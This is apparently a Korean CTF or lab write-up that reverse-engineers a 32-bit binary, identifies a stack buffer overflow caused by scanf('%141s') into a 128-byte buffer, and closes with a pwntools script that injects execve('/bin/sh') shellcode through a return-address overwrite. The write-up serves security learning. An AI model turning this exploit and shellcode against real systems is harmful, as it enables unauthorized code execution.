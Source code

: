 # Exploitation 2 분석

## 어셈블리 분석

### main

```asm
0x80485dc <main+3>     add    esp, -0x80
```

- `add esp, -0x80` → `sub esp, 0x80`
- `esp` 레지스터에 `0x80(128 바이트)` 만큼 감소시켜 스택 공간 확보

```asm
0x80485df <main+6>     call   initialize 
```

- `initialize` 함수 호출

#### initialize

- exploitation 1 과 동일

#### initialize 최종 c 언어

```c
void initialize() {
    setvbuf(0xf7f9d5c0 (_IO_2_1_stdin_), 0(NULL), 2, 0);
    setvbuf(0xf7f9dd40 (_IO_2_1_stdout_), 0(NULL), 2, 0);
    signal(0xe(14), alarm_handler);
    alarm(0x1e(30));
}
```

### main

```asm
0x80485e4 <main+11>          lea    eax, [ebp - 0x80]
```

- 현재 `ebp` 레지스터의 값: `0xffffcf38`
- `[ebp - 0x80]` 연산 수행 → `0xffffcf38` - `0x80` = `0xffffceb8`
- `0xffffceb8` 주소의 값 확인: `0xf7fbf720`: `0x804830f`
- `0x804830f` 주소의 값 확인: **0x804830f: "GLIBC_2.0"**
- `eax` 레지스터 에게 `0xffffceb8` 주소를 로드

```asm
0x80485e7 <main+14>          push   eax
```

- `eax` 값 `0xffffceb8`을 `stack`에 푸쉬

```asm
0x80485e8 <main+15>          push   0x8048699
```

- `0x8048699` 값을 `stack`에 푸쉬
- `0x8048699` 값 분석: `0x8048699`: `"buf = (%p)\n"`

```asm
0x80485ed <main+20>          call   printf@plt
```

- `printf` 함수 호출
> 최종: **printf(buf = (%p)\n, 0xffffceb8);**

```asm
0x80485f2 <main+25>          add    esp, 8
```

- `printf()` 함수 호출 이후, `add esp, 8` 명령어로
`push`로 쌓았던 **2개의 함수 인자(8바이트)**를 `stack`에서 정리함

```asm
0x80485f5 <main+28>          lea    eax, [ebp - 0x80]
```
- 현재 `ebp` 레지스터의 값: `0xffffcf38`
- `[ebp - 0x80]` 연산 수행 → `0xffffcf38` - `0x80` = `0xffffceb8`
- `0xffffceb8` 주소의 값 확인: `0xf7fbf720`: `0x804830f`
- `0x804830f` 주소의 값 확인: **0x804830f: "GLIBC_2.0"**
- `eax` 레지스터 에게 `0xffffceb8` 주소를 로드

```asm
0x80485f8 <main+31>          push   eax
```

- `eax` 값 `0xffffceb8`을 `stack`에 푸쉬

```asm
0x80485f9 <main+32>          push   0x80486a5
```

- `0x80486a5` 값을 `stack`에 푸쉬
- `0x80486a5`의 값 분석: **0x80486a5: "%141s"**

```asm
0x80485fe <main+37>    call   __isoc99_scanf@plt
```

- `scanf` 함수 호출
> 최종: **scanf(%141s, 0xffffceb8);**

```asm
0x8048603  <main+42>    add    esp, 8
```

- `scanf()` 함수 호출 이후, `add esp, 8` 명령어로
`push`로 쌓았던 **2개의 함수 인자(8바이트)**를 `stack`에서 정리함

```asm
0x8048606  <main+45>    mov    eax, 0                EAX => 0
0x804860b  <main+50>    leave  
0x804860c  <main+51>    ret 
```

- `eax`에 리턴 값 `0` 설정 후, `leave → ret`를 통해 스택 프레임 정리 및 호출한 함수로 복귀 → **`main` 함수 종료**

#### main 함수 C언어 추측

```c
int main() {
    char buf[0x80]; // 0xffffceb8 == buf 변수 추정
    initialize();
    printf(buf = (%p)\n, buf);
    scanf(%141s, buf);
}
```

> **위 코드는 실제 소스코드를 보지 않고, 리버싱 분석만으로 추정한 C 코드입니다.**

---

## 결론

### 구조 분석

- `buf` 변수를 이용해 사용자 입력을 받음.
- `printf` 함수는 `buf`의 주소(스택 위치)를 출력.
- `scanf("%141s", buf);`를 통해 최대 **141바이트의 문자열**을 입력.
- 이로 인해 **버퍼 오버플로우 발생 가능성이 충분** (`buf`는 128바이트 → 초과 입력 시 EBP/RIP 덮을 수 있음).

---

### 분석 환경

- Ubuntu 16.04
- Arch:     i386-32-little
- RELRO:    No RELRO
- Stack:    No canary found
- NX:       NX disabled
- PIE:      No PIE (0x8048000)
- RWX:      Has RWX segments

---

### 파이썬 스크립트

```python
from pwn import *

context(os='linux', arch='i386')

p = process("./exploitation_02")

data = p.recv(20)

decode_data = data.decode()
addr = decode_data.split()[2].replace("(","").replace(")","")
addr_int = int(addr, 16)

shellcode = (b'\x31\xc0'              # xor    eax, eax
             b'\x50'                  # push   eax
             b'\x68\x6e\x2f\x73\x68'  # push   0x68732f6e ; "n/sh"
             b'\x68\x2f\x2f\x62\x69'  # push   0x69622f2f ; "//bi"
             b'\x89\xe3'              # mov    ebx, esp
             b'\x31\xc9'              # xor    ecx, ecx
             b'\x31\xd2'              # xor    edx, edx
             b'\xb0\x08'              # mov    al, 8
             b'\x40'                  # inc    eax        ; 9
             b'\x40'                  # inc    eax        ; 10
             b'\x40'                  # inc    eax        ; 11 (0x0b, execve)
             b'\xcd\x80'              # int    0x80       ; syscall
            )

payload = shellcode + b"A" * (128 - len(shellcode)) + b"B" * 4 + p32(addr_int)

p.sendline(payload)

p.interactive()
```

- 대상 프로그램은 `scanf("%s", buf)`를 통해 입력을 받음

- 이 방식은 **널 바이트(`\x00`)를 만나면 입력이 중단**되므로, 쉘코드 내에 `\x00`이 포함되면 그 즉시 입력을 중단함.

- 따라서 **널 바이트가 없는(shellcode-free-of-null-bytes) 쉘코드**를 구성해야 함


